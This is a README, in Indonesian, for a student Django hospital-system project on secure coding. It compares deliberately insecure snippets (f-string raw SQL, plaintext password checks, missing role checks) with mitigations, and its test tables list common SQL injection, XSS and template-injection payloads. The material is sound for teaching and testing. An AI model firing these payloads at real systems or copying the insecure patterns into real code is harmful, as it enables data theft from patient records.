# PKPL26_HospitalSys - Hospital Information System

Repositori ini berisi implementasi Tugas 3 Kelompok untuk mata kuliah Pengantar Keamanan Perangkat Lunak. Aplikasi dibangun dengan Django dan mengambil skenario sistem informasi rumah sakit, dengan fokus utama pada praktik secure coding yang dapat diuji melalui test case SQL Injection, Code Injection/XSS, Broken Authentication, dan CSRF.

## Petunjuk Instalasi Lokal

1. Clone repositori.

   ```bash
   git clone https://gitlab.cs.ui.ac.id/pkpl26/30-progjut-my-beloved/pkpl26_30_progjut-my-beloved.git
   cd PKPL26_HospitalSys
   ```

2. Buat virtual environment.

   Windows:

   ```bash
   python -m venv venv
   venv\Scripts\activate
   ```

   macOS/Linux:

   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

3. Install dependency.

   ```bash
   pip install -r requirements.txt
   ```

4. Siapkan file `.env` di root project.

   ```env
   DJANGO_SECRET_KEY=isi_dengan_secret_key_lokal
   FIELD_ENCRYPTION_KEY=isi_dengan_fernet_key
   DEBUG=True
   ```

   Fernet key dapat dibuat dengan:

   ```bash
   python -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"
   ```

5. Jalankan migrasi dan seed data.

   ```bash
   python manage.py migrate
   python seed_data.py
   ```

6. Jalankan server lokal.

   ```bash
   python manage.py runserver
   ```

   Aplikasi dapat diakses melalui `http://127.0.0.1:8000/`.

## A. Deskripsi Aplikasi

PKPL26_HospitalSys adalah sistem informasi rumah sakit sederhana. Aplikasi ini memisahkan alur kerja pasien dan staff internal supaya data medis, resep, appointment, serta pembayaran tidak bercampur di satu akses yang terlalu luas.

Fitur utama:

- Registrasi dan login pasien.
- Dashboard pasien untuk appointment, encounter, rekam medis, dan invoice miliknya sendiri.
- Pengelolaan appointment dan rekam medis oleh role `REGISTRATION` dan `DOCTOR`.
- Pembuatan, validasi, dan dispensing resep oleh `DOCTOR` dan `PHARMACIST`.
- Proses pembayaran invoice oleh `CASHIER`.
- Enkripsi data medis sensitif sebelum disimpan ke database.
- Base layout dan CSS bersama untuk halaman non-billing agar navigasi, alert, form, tabel, dan card konsisten.

Role pengguna:

- `PATIENT`: melihat data dan membuat permintaan appointment untuk dirinya sendiri.
- `REGISTRATION`: mengelola data pendaftaran/appointment sesuai alur registrasi.
- `DOCTOR`: membuat encounter, rekam medis, dan resep.
- `PHARMACIST`: memvalidasi dan memproses resep.
- `CASHIER`: memproses pembayaran invoice.

Stack teknologi:

- Python
- Django
- SQLite untuk environment lokal
- Fernet encryption dari `cryptography`

## B. Pemetaan Secure Coding, CWE, dan Test Case

Catatan untuk potongan kode: snippet secure di bawah ini diambil dari source code aplikasi, lalu dirapikan seperlunya agar fokus pada bagian yang relevan. Snippet tidak secure adalah ilustrasi dari versi rentan yang bisa muncul jika alur yang sama ditulis tanpa praktik secure coding.

### 1. SQL Injection

* **Penjelasan Vulnerability:**

SQL Injection terjadi ketika input user ikut membentuk perintah SQL tanpa pemisahan yang aman antara data dan query. Pada aplikasi rumah sakit, celah ini bisa berakibat serius karena attacker dapat mencoba bypass login, membaca data pasien, atau memanipulasi invoice dan rekam medis. Kerentanan ini terkait dengan CWE-89, Improper Neutralization of Special Elements used in an SQL Command.

Test case yang dicakup:

- `TC-SQLi-01`: login bypass dengan payload klasik seperti `' OR '1'='1' --`.
- `TC-SQLi-02`: percobaan ekstraksi data melalui search input menggunakan payload `UNION SELECT`.
- `TC-SQLi-03`: verifikasi white-box bahwa akses database memakai Django ORM atau parameterized query, bukan raw SQL hasil string concatenation.

* **Teknik Mitigasi:**

- Kami membangun akses database melalui Django ORM dan ModelForm, misalnya `UserAccount.objects.get(username=username)`, `Invoice.objects.filter(status=...)`, dan akses relasi melalui ForeignKey.
- Kami memproses input form melalui `cleaned_data`, sehingga value yang masuk sudah melewati validasi Django Form sebelum dipakai oleh logic aplikasi.
- Kami memakai `UUIDField` dan lookup ORM untuk parameter ID penting. Payload seperti `1 OR 1=1` akan berhenti sebagai parameter URL/UUID yang tidak valid, bukan menjadi bagian dari query SQL.
- Kami tidak membuat query SQL manual untuk alur login, appointment, invoice, prescription, dan rekam medis. Query dibangun lewat ORM agar parameter binding ditangani oleh Django.
- Untuk environment lokal, SQLite digunakan melalui backend Django. Pada deployment database server terpisah, kami menyiapkan prinsip least privilege dengan akun database khusus aplikasi yang hanya memiliki izin sesuai kebutuhan runtime.

Django ORM dipakai sebagai lapisan utama akses database karena ORM melakukan parameter binding dan membangun query melalui API terstruktur. Dengan cara ini, karakter seperti tanda kutip, operator boolean, atau potongan SQL tidak berubah menjadi instruksi database baru. Validasi tipe seperti UUID juga membantu menolak payload sejak tahap routing/form validation, sehingga request berbahaya berhenti sebelum menyentuh query bisnis.

Least privilege pada user database tetap dicatat karena SQL Injection tidak hanya dicegah dari sisi query. Bila suatu hari ada query yang salah, dampaknya lebih kecil jika user database aplikasi tidak punya hak administratif seperti membuat, menghapus, atau mengubah struktur tabel di luar kebutuhan runtime.

* **Code Snippet Perbandingan:**

Tidak secure:

```python
username = request.POST["username"]
password = request.POST["password"]

query = (
    "SELECT * FROM auth_app_useraccount "
    f"WHERE username = '{username}' AND password = '{password}'"
)
user = UserAccount.objects.raw(query)
```

Secure, diambil dari `auth_app/views.py`:

```python
username = form.cleaned_data["username"]
user_obj = UserAccount.objects.get(username=username)
user = authenticate(request, username=username, password=password)
```

Tidak secure:

```python
patient_id = request.GET["patient_id"]
status = request.GET["status"]

query = (
    "SELECT * FROM billing_app_invoice "
    f"WHERE patient_id = '{patient_id}' AND status = '{status}'"
)
invoices = Invoice.objects.raw(query)
```

Secure, diambil dari `core_app/views.py`:

```python
invoices = (
    Invoice.objects.filter(
        encounter__patient=patient,
        status__in=[Invoice.InvoiceStatus.UNPAID, Invoice.InvoiceStatus.PAID],
    )
    .select_related("encounter")
    .order_by("-createdAt")
)
```

### 2. Code Injection dan XSS

* **Penjelasan Vulnerability:**

Code Injection terjadi ketika input user diproses sebagai kode atau ditampilkan sebagai HTML/script aktif. Rubrik menyebut Code Injection, tetapi test case yang digunakan lebih dekat ke Stored/Reflected XSS dan HTML Injection. Karena itu, bagian ini menghubungkan dua risiko tersebut: eksekusi kode dari input dan rendering HTML/script yang tidak aman. Kerentanan ini terkait dengan CWE-94, Improper Control of Generation of Code, dan CWE-79, Improper Neutralization of Input During Web Page Generation.

Test case yang dicakup:

- `TC-CI-01`: payload `<script>alert(...)</script>` tidak dieksekusi di browser.
- `TC-CI-02`: tag HTML dari input tidak dirender sebagai markup aktif.
- `TC-CI-03`: payload Server-Side Template Injection seperti `{{7*7}}` ditampilkan sebagai teks literal dan tidak dieksekusi.

* **Teknik Mitigasi:**

- Kami memakai template Django dengan auto escaping default untuk menampilkan data dari user sebagai teks biasa.
- Kami tidak menambahkan bypass escaping seperti `mark_safe()` atau filter `|safe` pada field yang berasal dari input pengguna.
- Kami membuat allowlist karakter pada form registrasi pasien untuk nama, alamat, dan nomor telepon.
- Kami memberi batas panjang eksplisit pada field form, misalnya `max_length` pada form login, resep, appointment, dan rekam medis.
- Kami menjalankan validasi password bawaan Django pada registrasi pasien.

Auto escaping Django membuat karakter seperti `<`, `>`, dan `"` ditampilkan sebagai teks biasa, sehingga payload script tidak berubah menjadi elemen HTML aktif. Validasi backend dengan allowlist dipakai pada field yang seharusnya punya format jelas, misalnya nama, alamat, nomor telepon, dan alasan appointment. Alasannya sederhana: browser atau frontend bisa dimanipulasi, sedangkan backend adalah titik terakhir yang menentukan data boleh masuk ke sistem atau tidak.

Batas panjang field juga membantu mengurangi ruang payload dan menjaga data tetap sesuai konteks domain. Untuk field medis yang memang membutuhkan teks bebas, data tetap diproses sebagai teks dan ditampilkan melalui template escaping Django.

* **Code Snippet Perbandingan:**

Tidak secure:

```python
def self_register(request):
    if request.method == "POST":
        full_name = request.POST["full_name"]

        patient = Patient.objects.create(
            name=full_name,
            address=request.POST["address"],
            phoneNumber=request.POST["phone_number"],
        )

        return redirect("auth_app:login")
```

Secure, diambil dari `core_app/forms.py`:

```python
PROFILE_NAME_REGEX = re.compile(r"^[A-Za-z0-9 .,'-]+$")

def clean_full_name(self):
    value = self.cleaned_data["full_name"].strip()
    if not PROFILE_NAME_REGEX.fullmatch(value):
        raise ValidationError("Nama hanya boleh berisi huruf, angka, spasi, dan tanda baca dasar.")
    return value
```

### 3. Broken Authentication

* **Penjelasan Vulnerability:**

Broken Authentication terjadi ketika proses login, penyimpanan password, pembatasan percobaan login, session, atau role access tidak dijaga dengan baik. Dampaknya user tidak sah dapat mencoba masuk, mempertahankan session lama, atau mengakses fitur yang bukan haknya. Kerentanan ini terkait dengan CWE-287, Improper Authentication; CWE-307, Improper Restriction of Excessive Authentication Attempts; CWE-613, Insufficient Session Expiration; dan CWE-862, Missing Authorization.

Test case yang dicakup:

- `TC-BA-01`: password tersimpan dalam bentuk hash Django, bukan plaintext.
- `TC-BA-02`: akun terkunci setelah 5 kali login gagal.
- `TC-BA-03`: logout menghapus session server-side dan endpoint terlindungi menolak akses tanpa session valid.
- `TC-BA-04`: halaman terproteksi tidak bisa diakses tanpa login.
- `TC-BA-05`: pesan error login tidak membocorkan apakah username atau password yang salah.

* **Teknik Mitigasi:**

- Kami mewariskan model user dari `AbstractUser`, sehingga password dibuat melalui `create_user()` dan disimpan memakai password hasher Django.
- Kami memakai `authenticate()` dari Django untuk proses login, bukan membandingkan password secara manual.
- Kami menambahkan field `failedLoginAttempts` dan `lockedUntil` untuk menyimpan status percobaan login gagal.
- Kami mengunci akun selama 15 menit setelah 5 kali kegagalan login.
- Kami membedakan staff internal dan pasien eksternal lewat `mfaEnabled` dan `is_patient`.
- Kami memakai `django.contrib.auth.logout()` untuk logout dan membatasi endpoint logout agar hanya menerima `POST`.
- Kami mengatur session agar berakhir saat browser ditutup dan memiliki umur 30 menit melalui `SESSION_COOKIE_AGE = 1800`.
- Kami menerapkan RBAC dengan `login_required`, decorator `staff_role_required`, helper access-denied terpusat, dan pengecekan ownership pada data pasien/dokter.
- Login gagal dan access denied diarahkan kembali ke halaman home dengan flash message yang konsisten, tanpa membuka data atau fitur yang dilarang.

Password hashing bawaan Django dipakai karena format hash Django menyertakan algoritma, salt, dan iterasi. Bila database terbaca pihak tidak berwenang, password asli tidak langsung tersedia. `authenticate()` juga menjaga proses verifikasi tetap berada pada mekanisme resmi Django, bukan perbandingan manual.

Lockout setelah 5 kegagalan membatasi brute force dan credential stuffing. Timeout 15 menit memberi jeda yang cukup untuk memperlambat serangan, tetapi tetap memungkinkan user sah kembali mencoba tanpa intervensi admin permanen. Session invalidation saat logout dan batas umur session mengurangi risiko token lama dipakai ulang. RBAC dipakai karena autentikasi hanya menjawab "siapa user ini", sedangkan authorization menjawab "fitur apa yang boleh diakses user ini".

* **Code Snippet Perbandingan:**

Tidak secure:

```python
user = UserAccount.objects.get(username=request.POST["username"])

if user.password == request.POST["password"]:
    request.session["user_id"] = str(user.id)
    return redirect("auth_app:profile")
```

Secure, diambil dari `auth_app/views.py`:

```python
user = authenticate(request, username=username, password=password)

if user is None:
    user_obj.failedLoginAttempts += 1

    if user_obj.failedLoginAttempts >= 5:
        user_obj.lock_account(minutes=15)
    else:
        user_obj.save(update_fields=["failedLoginAttempts"])
```

Tidak secure:

```python
def staff_role_required(*allowed_roles):
    def decorator(view_func):
        def wrapper(request, *args, **kwargs):
            return view_func(request, *args, **kwargs)

        return wrapper

    return decorator
```

Secure, diambil dari `auth_app/decorators.py`:

```python
def deny_to_home(request, message="Access denied."):
    messages.error(request, message)
    return redirect("landing_page")


def staff_role_required(*allowed_roles):
    def decorator(view_func):
        @wraps(view_func)
        def wrapper(request, *args, **kwargs):
            if not request.user.is_authenticated:
                messages.error(request, "Please sign in before accessing that page.")
                return redirect("auth_app:login")

            try:
                staff = request.user.staff
            except Staff.DoesNotExist:
                return deny_to_home(request, "Staff account required.")

            if staff.role not in allowed_roles:
                return deny_to_home(request, "Access denied for your role.")

            return view_func(request, *args, **kwargs)

        return wrapper

    return decorator
```

Tidak secure:

```python
@login_required
def create_prescription(request, encounter_id):
    ...
```

Secure, contoh pemakaian dari `pharmacy_app/views.py`:

```python
@login_required
@staff_role_required("DOCTOR")
def create_prescription(request, encounter_id):
    ...
```

### 4. CSRF

* **Penjelasan Vulnerability:**

CSRF terjadi ketika situs eksternal memaksa browser user yang sedang login untuk mengirim request write ke aplikasi tanpa persetujuan user. Dalam sistem rumah sakit, risiko ini dapat menyentuh aksi seperti membuat appointment, memproses pembayaran, atau mengubah data yang seharusnya hanya dilakukan lewat form resmi aplikasi. Kerentanan ini terkait dengan CWE-352, Cross-Site Request Forgery.

Test case yang dicakup:

- `TC-CSRF-01`: seluruh form yang melakukan operasi write memiliki token CSRF.
- `TC-CSRF-02`: request tanpa token atau dengan token tidak valid ditolak oleh server.
- `TC-CSRF-03`: cross-origin request tidak diberi akses bebas.

* **Teknik Mitigasi:**

- Kami mengaktifkan `django.middleware.csrf.CsrfViewMiddleware` di `MIDDLEWARE`.
- Kami menaruh `` pada form POST di template login, logout, registrasi pasien, appointment, rekam medis, resep, validasi resep, dispensing, dan pembayaran.
- Kami memberi `@csrf_protect` pada `login_view`.
- Kami memberi `@require_POST` pada `logout_view`, sehingga logout hanya berjalan melalui form POST yang membawa token CSRF.
- Kami menjalankan aplikasi sebagai aplikasi same-origin Django dan tidak membuka konfigurasi CORS permisif.

CSRF token membuat request write harus membawa nilai rahasia yang dibuat oleh server dan terikat pada sesi/origin yang sah. Situs eksternal dapat mencoba mengirim form POST, tetapi tidak dapat membaca token dari halaman aplikasi karena dibatasi same-origin policy browser. Verifikasi di middleware memastikan perlindungan terjadi di server, bukan hanya berdasarkan tampilan form.

Untuk kebutuhan produksi atau API yang akan diakses dari domain berbeda, CORS perlu dibuat eksplisit dengan allowlist origin yang dipercaya. Alasannya, konfigurasi CORS yang terlalu longgar dapat membuat browser mengizinkan origin luar membaca response atau mengirim request lintas domain dengan pola yang tidak sesuai desain aplikasi.

* **Code Snippet Perbandingan:**

Tidak secure:

```python
MIDDLEWARE = [
    "django.middleware.security.SecurityMiddleware",
    "django.contrib.sessions.middleware.SessionMiddleware",
    "django.middleware.common.CommonMiddleware",
    "django.contrib.auth.middleware.AuthenticationMiddleware",
]
```

Secure, diambil dari `progjut_hospital_system/settings.py`:

```python
MIDDLEWARE = [
    "django.middleware.security.SecurityMiddleware",
    "django.contrib.sessions.middleware.SessionMiddleware",
    "django.middleware.common.CommonMiddleware",
    "django.middleware.csrf.CsrfViewMiddleware",
    "django.contrib.auth.middleware.AuthenticationMiddleware",
]
```

Tidak secure:

```python
def login_view(request):
    ...

def logout_view(request):
    logout(request)
    return redirect("auth_app:login")
```

Secure, diambil dari `auth_app/views.py`:

```python
@csrf_protect
def login_view(request):
    ...

@require_POST
def logout_view(request):
    logout(request)
    return redirect("auth_app:login")
```

Tidak secure:

```html
<form method="post" class="login-form" novalidate>
    {{ form.as_p }}
    <button type="submit" class="btn-primary">Sign In</button>
</form>
```

Secure, diambil dari `auth_app/templates/auth_app/login.html`:

```html
<form method="post" class="login-form" novalidate>
    
    {{ form.as_p }}
    <button type="submit" class="btn-primary">Sign In</button>
</form>
```

## C. Checklist Test Case Secure Coding

Bagian ini mengikuti format test case umum yang diberikan. Screenshot bukti pengujian disimpan dengan pola `docs/screenshots/general/<TC-ID>.png` dan direferensikan langsung pada baris TC yang sesuai.

### SQL Injection

| TC-ID | Nama TC | Skenario | Jenis | Deskripsi | Langkah | Contoh Input | Hasil yang Diharapkan | CWE | Status Pengujian | Screenshot |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| TC-SQLi-01 | Login Bypass via SQL Injection | Semua (1-10) | SQL Injection | Mencoba melewati autentikasi login dengan SQL injection klasik. | 1. Buka halaman login aplikasi.<br>2. Masukkan payload pada field username dan/atau password.<br>3. Submit form. | Username: `' OR '1'='1' --`<br>Password: bebas | Login gagal; response menampilkan pesan `Username atau password salah`; tidak ada redirect ke dashboard. | CWE-89 | Lulus |  |
| TC-SQLi-02 | Data Extraction via Search Input | Semua (1-10) | SQL Injection | Mencoba mengekstrak data dari tabel lain menggunakan UNION-based injection. | 1. Login sebagai user valid.<br>2. Gunakan fitur pencarian encounter di patient portal.<br>3. Masukkan payload `UNION SELECT`. | Query: `' UNION SELECT username, password, null FROM users --` | Aplikasi mengembalikan hasil pencarian normal atau pesan kosong/generik; tidak menampilkan data tabel user; tidak ada stack trace atau detail SQL error. | CWE-89 | Lulus |  |
| TC-SQLi-03 | Parameterized Query Verification (White-box) | Semua (1-10) | SQL Injection | Verifikasi kode menggunakan parameterized query atau ORM, bukan string concatenation. | 1. Review source code fungsi yang berinteraksi dengan database.<br>2. Cari pola berbahaya seperti `f"SELECT ... {user_input}"`, `"SELECT ..." + var`, `format()`, atau `%` formatting pada raw SQL. | Code review, tidak ada input runtime. | Tidak ditemukan raw SQL dengan string concatenation dari input user; query aplikasi menggunakan Django ORM atau parameterized query. | CWE-89 | Lulus |  |
| TC-SQLi-04a | Hospital: Pencarian Rekam Medis | 1 - Hospital Information System | SQL Injection | Menguji input pencarian riwayat medis/encounter pasien dengan payload SQL injection klasik. | 1. Login sebagai pasien valid.<br>2. Buka halaman medical history atau pencarian rekam medis pasien.<br>3. Masukkan payload pada input pencarian nomor rekam medis/encounter. | Nomor rekam medis: `12345' OR '1'='1` | Hanya menampilkan data pasien yang sesuai nomor tersebut; tidak dump semua rekam medis dan tidak menampilkan data pasien lain. | CWE-89 | Lulus |  |

### Code Injection dan XSS

| TC-ID | Nama TC | Skenario | Jenis | Deskripsi | Langkah | Contoh Input | Hasil yang Diharapkan | CWE | Status Pengujian | Screenshot |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| TC-CI-01 | Script Tag Injection (Stored XSS / Reflected XSS) | Semua (1-10) | Code Injection (XSS) | Menyisipkan script HTML berbahaya ke field input yang ditampilkan kembali. | 1. Login sebagai user valid.<br>2. Temukan field input yang hasilnya ditampilkan kembali, misalnya reason appointment atau profil pasien.<br>3. Masukkan payload XSS.<br>4. Simpan dan lihat halaman yang menampilkan data tersebut. | `<script>alert('XSS')</script>` | Script tidak dieksekusi; teks ditolak oleh validasi atau tampil sebagai literal; tidak muncul alert box. | CWE-79 | Lulus |  |
| TC-CI-02 | HTML Injection via Input Field | Semua (1-10) | Code Injection (HTML Injection) | Mencoba menyimpan tag HTML dan event handler berbahaya pada input user. | 1. Login sebagai user valid.<br>2. Masukkan payload HTML pada field yang ditampilkan kembali.<br>3. Submit form dan cek halaman hasil. | `<h1>Hacked</h1>` | Tag HTML tidak dirender sebagai HTML aktif; payload ditampilkan sebagai teks biasa atau ditolak oleh validasi form. | CWE-79 | Lulus |  |
| TC-CI-03 | Template Injection (untuk Django/Jinja2) | Semua (1-10) | Code Injection (SSTI) | Mencoba mengeksploitasi Server-Side Template Injection. | 1. Login sebagai user valid.<br>2. Masukkan payload template expression pada input teks.<br>3. Simpan dan lihat apakah expression dievaluasi server. | `{{7*7}}` atau `{{config.SECRET_KEY}}` | Input ditampilkan sebagai teks literal, bukan `49`; `SECRET_KEY` atau informasi server tidak bocor. | CWE-94 | Lulus |  |
